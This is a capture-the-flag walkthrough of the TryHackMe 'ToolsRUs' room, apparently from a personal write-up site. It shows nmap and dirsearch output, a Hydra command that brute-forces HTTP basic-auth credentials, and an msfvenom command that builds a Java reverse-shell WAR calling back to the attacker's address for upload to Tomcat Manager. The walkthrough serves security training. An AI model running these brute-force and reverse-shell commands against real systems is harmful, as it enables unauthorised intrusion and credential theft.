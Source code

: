 
[TryHackMe Link](https://tryhackme.com/room/toolsrus){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this section, I will discuss about gaining access to a system by exploiting vulnerabilities in various services. The services include Apache Tomcat, Apache Coyote JSP Engine, Apache Jserv, and an HTTP server on port 80.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |
| <p id="p3" style="font-size:14px;  color: purple"></p>     | <p id="s3" style="font-size:14px; color: purple"></p>  |<p id="d3" style="font-size:14px; color: purple"></p> |
| <p id="p4" style="font-size:14px;  color: purple"></p>     | <p id="s4" style="font-size:14px; color: purple"></p>  |<p id="d4" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```sh linenums="1" hl_lines="6 11 14 18"
    # Nmap 7.93 scan initiated Wed Feb 22 10:11:28 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.4.144
    Nmap scan report for 10.10.4.144
    Host is up (0.15s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 460e76fbb6a2f7f78536656f8809f7e8 (RSA)
    |   256 a1bc5d3478f4e8d4091805ef9d9072c5 (ECDSA)
    |_  256 0757145539dfc56296f9fc4883cf127e (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    |_http-server-header: Apache-Coyote/1.1
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/22%OT=22%CT=1%CU=33697%PV=Y%DS=5%DC=I%G=Y%TM=63F630B
    OS:F%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Feb 22 10:11:59 2023 -- 1 IP address (1 host up) scanned in 30.78 seconds

  ```

## <b>Enumerating Apache Coyote JSP Engine</b>

At first, my plan was to exploit the Apache JSP Engine by uploading a malicious WAR file to obtain a shell. Since I was familiar with this method, I felt confident. However, I was unable to pass the authorization process.

In my attempts to gain access to the Tomcat Manager, I initially turned to a Python script to brute force default logins for Apache Tomcat. Unfortunately, this approach also failed. 

## <b>Enumerating the HTTP Server</b>

I then shifted my focus to the HTTP server running on port 80, where I discovered a simple page that hinted at the development of the site. 

<img id="image1" />

Utilizing a dirsearch Python script, I was able to locate potentially hidden pages and directories that could provide further clues and entry points.

```sh linenums="1" hl_lines="21-23"
    Target: http://10.10.4.144/

    [10:13:58] Starting: 
    [10:14:03] 403 -  297B  - /.ht_wsr.txt                                     
    [10:14:03] 403 -  300B  - /.htaccess.bak1
    [10:14:03] 403 -  302B  - /.htaccess.sample
    [10:14:03] 403 -  300B  - /.htaccess.orig
    [10:14:03] 403 -  300B  - /.htaccess.save
    [10:14:03] 403 -  301B  - /.htaccess_extra
    [10:14:03] 403 -  300B  - /.htaccess_orig
    [10:14:03] 403 -  298B  - /.htaccess_sc
    [10:14:03] 403 -  298B  - /.htaccessBAK
    [10:14:03] 403 -  298B  - /.htaccessOLD
    [10:14:03] 403 -  290B  - /.htm
    [10:14:03] 403 -  299B  - /.htaccessOLD2                                   
    [10:14:03] 403 -  291B  - /.html
    [10:14:03] 403 -  300B  - /.htpasswd_test
    [10:14:03] 403 -  296B  - /.htpasswds
    [10:14:03] 403 -  297B  - /.httr-oauth
    [10:14:36] 200 -  168B  - /index.html                                       
    [10:14:47] 401 -  458B  - /protected/data/                                  
    [10:14:47] 401 -  458B  - /protected/runtime/
    [10:14:47] 301 -  298B -  /guidelines
    [10:14:49] 403 -  299B  - /server-status                                    
    [10:14:49] 403 -  300B  - /server-status/
```

## <b>Exploiting '/guidelines' page</b>

After running the dirsearch script, I was able to identify two promising directories that could lead to further leads, namely `protected` and `guidelines`. The former sounded highly secured, but to my surprise, it was not. While I was filling out the question, I decided to check out the `/guidelines` page, and found a username called `bob`.

<img id="image2" />

Leveraging this discovery, I was able to brute force Bob's password using Hydra, which gave me access to the `protected` directory. It was a simple HTTP Basic Authorization Request which can be brute forced with the following command:

!!! tip "Hydra Command"
    <p id="desc" style="font-size:15px">hydra $IP -l bob -P ~/rockyou.txt http-get /protected -V</p>
    


<img id="image3" />

I successfully obtained Bob's login credentials, and used them to access the page that I had discovered earlier.

## <b>Exploiting Apache Tomcat with Harvested Credentials</b>

When I logged in, I discovered that the Authorization mechanism used for the Tomcat Service and the `/protected` directory were the same. 

<img id="image4" />

This allowed me to reuse the credentials that I had previously harvested. With access granted, I uploaded a Java WAR file to the manager and made a reverse shell from it.

!!! Bug "Msfvenom Payload"
    <span>msfvenom -p java/shell_reverse_tcp lhost=10.17.3.217 lport=5432 -f war -o shell.war</span>

<img id="image5" />

Also, I made a listener, before I accessed {++http://10.10.4.144:1234/shell/++} giving me the shell.


## <b>Gaining Root access</b>

Surprisingly, I was granted `root` access, rather than the expected `www-data` shell. Easy-Peasy

```sh
root@ip-10-10-4-144:/# cat root/*
cat root/*
{--REDACTED--}
cat: root/snap: Is a directory
```

Peace-out!

<script>

// JSON object
const data = {
    "desc": "Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit",
    "ip":  "10.10.4.144",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu;80/tcp,http,Apache httpd 2.4.18;1234/tcp,http,Apache Tomcat/Coyote JSP engine 1.1;8009/tcp,ajp13,Apache Jserv (Protocol v1.3)",
    "difficulty":"easy",
    "id": "3"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>